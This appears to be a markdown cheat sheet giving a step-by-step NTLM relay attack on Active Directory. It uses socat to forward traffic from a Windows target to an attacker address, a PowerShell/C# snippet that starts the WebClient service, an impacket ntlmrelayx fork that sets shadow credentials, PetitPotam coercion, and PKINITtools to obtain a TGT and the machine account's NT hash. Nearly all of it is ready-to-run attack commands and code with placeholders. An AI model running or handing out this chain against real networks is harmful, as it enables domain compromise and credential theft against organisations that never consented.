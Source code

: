 ```yaml
---
title: "NTLM Relay Attack"
date: 2024-8-3
tags: ["ntlmreplay", "PetitPotam", "active driectory", "ad", "Windows", "adcs", "webdav", "ntlm", "PKINIT", "tgt"]
---
```


---
### 1. Run socat to redirect traffic (In Windows Target)

[socat](https://codeload.github.com/StudioEtrange/socat-windows/zip/refs/heads/master)

```powershell
# Upload socat.zip
Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('c:\programdata\socat.zip', 'c:\programdata')
```

```powershell
.\socat.exe tcp-listen:8090,reuseaddr,fork tcp:10.10.14.10:80
```

### 2. Enable webdav (In Windows Target)

```powershell
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;

namespace JosL.WebClient{
	public static class Starter{
		[StructLayout(LayoutKind.Explicit, Size=16)]
		public class EVENT_DESCRIPTOR{
			[FieldOffset(0)]ushort Id = 1;
			[FieldOffset(2)]byte Version = 0;
			[FieldOffset(3)]byte Channel = 0;
			[FieldOffset(4)]byte Level = 4;
			[FieldOffset(5)]byte Opcode = 0;
			[FieldOffset(6)]ushort Task = 0;
			[FieldOffset(8)]long Keyword = 0;
		}
 
		[StructLayout(LayoutKind.Explicit, Size = 16)]
		public struct EventData{
			[FieldOffset(0)]
			internal UInt64 DataPointer;
			[FieldOffset(8)]
			internal uint Size;
			[FieldOffset(12)]
			internal int Reserved;
		}
 
		public static void startService(){
			Guid webClientTrigger = new Guid(0x22B6D684, 0xFA63, 0x4578, 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7);
 
			long handle = 0;
			uint output = EventRegister(ref webClientTrigger, IntPtr.Zero, IntPtr.Zero, ref handle);
 
			bool success = false;
 
			if (output == 0){
				EVENT_DESCRIPTOR desc = new EVENT_DESCRIPTOR();
				unsafe
				{
					uint writeOutput = EventWrite(handle, ref desc, 0, null);
					success = writeOutput == 0;
					EventUnregister(handle);
				}
			}
		}
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventUnregister(long RegHandle);
	}
}
"@

$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()

```

<br>

```powershell
# Run enable_webdav.ps1
C:\programdata\enable_webdav.ps1
```

### 3. Start ntlmrelayx listener (In Local Linux)

#### Get impacket fork : Add Shadow Credentials Commands to Ntlmrelayx's Interactive LDAP Shell

```bash
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
```

```bash
cd impacket
```

```bash
git checkout -b remotes/origin/interactive-ldap-shadow-creds
```

```bash
python3 -m venv test
```

```bash
source test/bin/activate
```

```bash
pip install .
```

```bash
pip3 install impacket pyOpenSSL==24.0.0
```

#### Run ntlmrelayx

```bash
proxychains4 examples/ntlmrelayx.py -t ldaps://<DC> --delegate-access -i
```

### 4. Run PetitPotam (In Local Linux)

[PetitPotam](https://github.com/topotam/PetitPotam)

```bash
proxychains4 python3 PetitPotam.py -u <USERNAME> -hashes :<HASH> <SOCAT_HOSTNAME>@8090/test <SOCAT_LISTENER_IP> -pipe all
```

### 5. Connect to LDAP shell (In Local Linux)

```bash
rlwrap nc 127.0.0.1 11000
```

```bash
clear_shadow_creds <SOCAT_HOSTNAME>$
```

```bash
# Take Note: pfx path and password
set_shadow_creds <SOCAT_HOSTNAME>$
```

### 6. Request TGT using pfx file (In Local Linux)

[PKINITtools](https://github.com/dirkjanm/PKINITtools)

```bash
proxychains4 python3 gettgtpkinit.py <DOMAIN>/<SOCAT_HOSTNAME>$ <SOCAT_HOSTNAME>.ccache -cert-pfx <RANDOM_CHARS>.pfx -pfx-pass <RANDOM_CHARS_PASSWORD> -dc-ip <DC>
```

### 7. Get NT Hash (In Local Linux)

```bash
proxychains4 python3 getnthash.py <DOMAIN>/<SOCAT_HOSTNAME>$ -key <AS-REP_encryption_key>
```

<br>